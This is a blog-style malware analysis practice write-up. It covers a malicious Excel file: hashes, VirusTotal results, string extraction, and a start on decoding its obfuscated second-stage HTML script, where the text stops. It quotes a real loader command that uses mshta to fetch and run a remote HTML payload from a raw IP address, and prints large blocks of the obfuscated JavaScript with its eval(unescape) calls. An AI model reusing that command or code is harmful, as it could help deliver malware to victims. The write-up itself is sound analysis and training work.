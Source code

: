 ```yaml
---
layout: page
title: Malware Analysis Practice (Maldoc) #1
permalink: /lemon-mockingbird-north-alanine
---
```


# Analysis of lemon-mockingbird-north-alanine

asparagus-potato-london-march is a sample I downloaded from MalwareBazaar that was uploaded by [@Cryptolaemus1](https://twitter.com/Cryptolaemus1/), a link to the sample is below. The bulk of this analysis is based on techniques I have learned from [@HuskyHacksMK](https://twitter.com/HuskyHacksMK)'s Practical Malware Analysis & Triage course.

Sample source: [https://bazaar.abuse.ch/sample/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7/](https://bazaar.abuse.ch/sample/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7/)

---

## Static Analysis xlsx file

### File Hashes
I pulled the below hashes using hashcalc.

- MD5: db00ce44029164d0695bafc91fa67413
- SHA1: a7c0195d74d5be9c44638957c704eb76ef749c17
- SHA256: c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7

### VirusTotal
I was able to find a hit when searching the file hash in VT. There is some good information, interestingly only 8/60 vendors flag the file as mailicious. 

VirusTotal - [https://www.virustotal.com/gui/file/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7](https://www.virustotal.com/gui/file/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7)

### Strings
I used strings to pull all strings from the sample. One string really stood out and it looked very useful.

``` cmd /c set kiki=mshta http://91.240.118.172/mm/nn/se.html & echo %kiki% | cmdB ```

From here I went out on a limb and guessed this was a second stage and used any.run to pull a copy the html file safely. The any.run analysis where you can download a copy of he.html is here: [https://app.any.run/tasks/b756c3c0-d524-4c6c-95dc-d472c632a26d/](https://app.any.run/tasks/b756c3c0-d524-4c6c-95dc-d472c632a26d/)

---

## Static Analysis second stage se.html
The first thing I did with the html file was to open it in Notepad++ in the hopes that it wouldn't be a mess of encrypted characters. I was met with an obfuscated script split up into 3 blocks.

<script src="https://gist.github.com/seizethecheese/181b2d23600e9536e90fb76b30fad235.js"></script>
	
From here I built out the variables that looked easy to decode but were split across the script so I could try to decode them.

tsY5j35h1t7p = '%69\146%28%7AL\120%2E\151%6Ed\145x%4Ff%28%27%5C%35%35%27%29%3E%30%29%7Be\144%74sQ\167%4A%35y%36%37d%38%5B%30%5D%3D%27x%27%7D%3B%76\141\162%20l%32%3D%77in\144o%77%2Eo\160%65\162a%3F%31%3A%30%3Bf%75%6E%63%74io\156%20c%36%37%66%39\146%28%29%7B%69f%28\146%39f%37%36c%29%7Bdo\143\165%6De%6E\164%2Ew\162i%74\145%28%6C%4F%29%7D%7D%3B%66%75nc\164%69o%6E%20l%33%28%6C%34%29%7Bl%35%3D%2F\172a%2Fg%3Bl%36%3DS\164\162i%6Eg%2Efro\155Ch\141\162C%6F\144%65%28%30%29%3B\154%34%3Dl%34%2Ere\160%6C\141%63\145%28l%35%2Cl%36%29%3B%76\141\162%20%6C%37%3D%6E%65\167%20A\162r%61y%28%29%2Cl%38%3D%5F%31%3D\154%34%2El\145n%67%74%68%2C\154%39%2C%6CI%2C\151%6C%3D%31%36%32%35%36%2C%5F%31%3D%30%2C\111%3D%30%2C%6C\151%3D%27%27%3Bd\157%7B%6C%39%3D%6C%34%2E\143ha%72C\157%64e%41t%28%5F%31%29%3BlI%3D\154%34%2E\143%68%61%72\103od%65%41t%28%2B%2B%5F%31%29%3B%6C%37%5B\111%2B%2B%5D%3D\154I%2Bil%2D%28%6C%39%3C%3C%37%29%7D\167h%69%6C\145%28%5F%31%2B%2B%3C\154%38%29%3Bv\141\162%20\154%31%3D%6Eew%20\101\162%72a%79%28%29%2C\154%30%3D\156%65\167%20A%72\162%61y%28%29%2C%49\154%3D%31%32%38%3B%64\157%7Bl%30%5B%49%6C%5D%3DSt%72i%6E\147%2E\146rom%43har%43o\144e%28\111\154%29%7D\167\150il\145%28%2D%2D%49l%29%3B%49%6C%3D%31%32%38%3Bl%31%5B%30%5D%3D%6C\151%3D%6C%30%5Bl%37%5B%30%5D%5D%3B%6C\154%3D%6C%37%5B%30%5D%3B%5Fl%3D%31%3Bva%72%20\154%5F%3D%6C%37%2E%6Ce%6Egth%2D%31%3Bw\150%69le%28%5F\154%3Cl%5F%29%7Bswitc%68%28%6C%37%5B%5Fl%5D%3CI\154%3F%31%3A%30%29%7B%63a%73\145%20%30%20%3A%6C%30%5BI\154%5D%3Dl%30%5B\154l%5D%2BStr\151\156\147%28l%30%5B%6C%6C%5D%29%2E%73%75%62s\164r%28%30%2C%31%29%3B\154%31%5B%5F%6C%5D%3Dl%30%5B%49l%5D%3Bif%28l%32%29%7B%6C%69%2B%3D%6C%30%5B\111\154%5D%7D%3B%62%72\145\141\153%3Bdefa%75\154t%3Al%31%5B%5F%6C%5D%3D\154%30%5Bl%37%5B%5F%6C%5D%5D%3B\151f%28%6C%32%29%7Bli%2B%3Dl%30%5B%6C%37%5B%5F%6C%5D%5D%7D%3Bl%30%5BI\154%5D%3D\154%30%5Bl%6C%5D%2B\123%74\162i%6Eg%28l%30%5B\154%37%5B%5Fl%5D%5D%29%2E\163\165%62\163%74r%28%30%2C%31%29%3B\142%72\145ak%7D%3BIl%2B%2B%3Bll%3D\154%37%5B%5F\154%5D%3B%5Fl%2B%2B%7D%3B\151f%28%21l%32%29%7Bre%74urn%28l%31%2E\152o%69%6E%28%27%27%29%29%7De\154s\145%7B\162e\164u%72n%20%6Ci%7D%7D%3B\166ar%20\154%4F%3D%27%27%3B%66o%72%28%69\151%3D%30%3Bi\151%3C\145%64tsQwJ%35\171%36%37d%38%2El\145n\147%74h%3B%69i%2B%2B%29%7B%6C%4F%2B%3D\154%33%28%65d\164%73%51wJ%35\171%36%37\144%38%5B%69%69%5D%29%7D%3Bc%36%37f%39%66%28%29%3B'

mX52Su5Km3cOV[0]='w%36%38%33BC\115\104%72%30o%4B%31%31%35%67B'

There were also 2 encoded function calls:

line 39 `eval(unescape('f\165n%63%74\151\157n%20yI%36Q%51%36%20%20%20%20%28\164%33%50%35FFQ%56%29%7B\150%76%43E\125%35Z\105\115M%4B\102%32%3Dt%33%50%35FF\121%56%7D%3B'));`
line 54 `eval(unescape('%71%79%36%28%22%63%37%39%38%66%62%36%39%66%22%29%3B'));`

These could be decoded using a simple CyberChef recipe
 ![chef screenshot](<../assets/img/decodeuelenc.PNG> "cyberchef screenshot")

The decoded variables were:

tsY5j35h1t7p
<script src="https://gist.github.com/seizethecheese/70223a4bc4da049c71de05e7d88c8c9e.js"></script>

mX52Su5Km3cOV[0] = `w683BCMDr0oK115gB`

line 39 = `function yI6QQ6    (t3P5FFQV){hvCEU5ZEMMKB2=t3P5FFQV};`

line 54 = `qy6("c798fb69f");`

Obviously **tsY5j35h1t7p** is very interesting. You can see reference to the variable **edtsQwJ5y67d8** that I hadn't spent much time on at this point as it looks like a bunch of encrypted garbage. There are also a lot of character & string operations like 'String.fromCharCode', 'l9=l4.charCodeAt(_1)', and ''l0[Il]=l0[ll]+String(l0[l7[_l]]).substr(0,1); these types of operations make me think this is code is used to decode the encrypted **edtsQwJ5y67d8** variable.